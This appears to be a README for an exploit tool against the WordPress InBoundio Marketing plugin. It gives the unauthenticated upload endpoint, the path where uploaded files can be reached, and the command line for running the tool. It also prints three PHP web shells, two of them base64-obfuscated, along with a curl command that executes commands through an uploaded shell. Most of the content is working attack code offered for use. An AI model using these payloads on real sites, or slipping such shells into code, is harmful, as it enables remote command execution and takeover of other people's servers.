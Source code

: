- WordPress plugin InBoundio Marketing Shell Upload / INURL - BRASIL
------
```
  # AUTOR:        Cleiton Pinheiro / Nick: googleINURL
  # Blog:         http://blog.inurl.com.br
  # Twitter:      https://twitter.com/googleinurl
  # Fanpage:      https://fb.com/InurlBrasil
  # Pastebin      http://pastebin.com/u/Googleinurl
  # GIT:          https://github.com/googleinurl
  # PSS:          http://packetstormsecurity.com/user/googleinurl
  # YOUTUBE:      http://youtube.com/c/INURLBrasil
  # PLUS:         http://google.com/+INURLBrasil
```
-   Vendor
------
http://www.inboundio.com

-   Vulnerability Description
------
WordPress plugin (InBoundio Marketing) remote shell upload vulnerability.

-   Tool Description
------
The script makes file upload without permission

-   REQUEST POST SEND
------
```
array('file' => "@_YOU_FILE")
```

-   URL REQUEST SEND
------
```
http://{target}/wp-content/plugins/inboundio-marketing/admin/partials/csv_uploader.php
```

-   URL FILE ACCESS
------
```
http://{target}/wp-content/plugins/inboundio-marketing/admin/partials/uploaded_csv/_YOU_FILE
```

-   EXECUTE EXPLOIT
------
```
   -t : SET TARGET.
   -f : SET FILE UPLOAD.
   Execute:
                 php xlp.php -t target -f shell.php
```

-   OUTPUT VULN
------
filename: Exploit_AFU.txt

-   EXEMPLE SHELL UPLOAD
------
```
[+] MODEL-01 CODE >>
<?php $__=@base64_decode("c3lzdGVt");echo@$__(isset($_REQUEST[0])?$_REQUEST[0]:NULL);?>
 
[+] MODEL-02 CODE >>
<?php echo(`{$_REQUEST[0]}`);?>
 
[+] MODEL-03 CODE >>
<?php $_=$_REQUEST[0];@$__=@create_function('$_',base64_decode("ZWNobyhzaGVsbF9leGVjKCRfKSk7"));@$__($_);
 
# EXECUTE: curl "http://localhost/of.php?0=uname%20-a%20%26%26%20ls%20-la"
```
-   REFERENCE
------
[1] http://pastebin.com/D07wPKmA

[2] http://k3dsec.blogspot.com/2015/03/wordpress-plugin-inboundio-marketing.html

[3] http://blog.inurl.com.br/2015/03/inurl-brasil-simple-shell-backdoor.html
